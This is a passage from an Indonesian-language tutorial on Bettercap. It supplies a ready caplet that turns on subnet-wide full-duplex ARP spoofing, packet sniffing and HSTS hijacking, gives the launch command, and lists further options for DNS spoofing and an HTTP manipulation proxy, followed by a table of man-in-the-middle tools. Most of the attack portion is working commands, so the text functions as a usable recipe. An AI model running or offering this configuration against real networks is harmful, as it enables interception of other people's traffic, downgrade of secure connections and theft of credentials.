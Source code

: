#### Menggunakan File Caplet untuk Automasi
Untuk mempercepat eksekusi perintah, gunakan file caplet:

```bash
cat > aria.cap << EOF
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 172.16.0.0/24
arp.spoof on
net.sniff on

set net.sniff.verbose true
set net.sniff.filter tcp or udp

hstshijack/hstshijack on
EOF
```

Jalankan Bettercap dengan caplet tersebut:
```bash
sudo bettercap -iface eth0 -caplet aria.cap
```

Caplet ini akan mengaktifkan pemindaian jaringan, menjalankan ARP Spoofing dalam mode full-duplex, dan mengaktifkan sniffing jaringan secara otomatis.

#### Opsi Lainnya
Selain contoh di atas, berikut beberapa opsi lain yang bisa dicoba:

1. **Menampilkan Informasi Lebih Detail**:
   ```plaintext
   net.recon on         # Mengaktifkan mode pengintaian lanjutan
   net.show verbose     # Menampilkan detail perangkat secara lengkap
   ```

2. **Menyerang Banyak Target Sekaligus**:
   ```plaintext
   set arp.spoof.targets 192.168.1.0/24  # Menargetkan seluruh subnet
   arp.spoof on
   ```

3. **Menjalankan Modul Lainnya**:
   ```plaintext
   dns.spoof on         # Melakukan DNS Spoofing
   http.proxy on        # Menjalankan proxy HTTP untuk manipulasi trafik
   ```

Opsi-opsi ini dapat dikombinasikan dalam file caplet untuk memperluas fungsionalitas Bettercap sesuai kebutuhan Anda.

## 3. Tools yang Digunakan untuk ARP Spoofing

| Tool | Deskripsi |
|------|----------|
| **Ettercap** | Tools untuk MITM attack dengan ARP Spoofing. |
| **Wireshark** | Digunakan untuk menganalisis paket jaringan dan mendeteksi ARP Spoofing. |
| **Arpspoof** | Tools sederhana untuk mengirim paket ARP palsu. |
| **Bettercap** | Framework security testing yang lebih canggih untuk MITM attack. |
| **Scapy** | Library Python untuk membuat dan mengirim paket ARP palsu. |
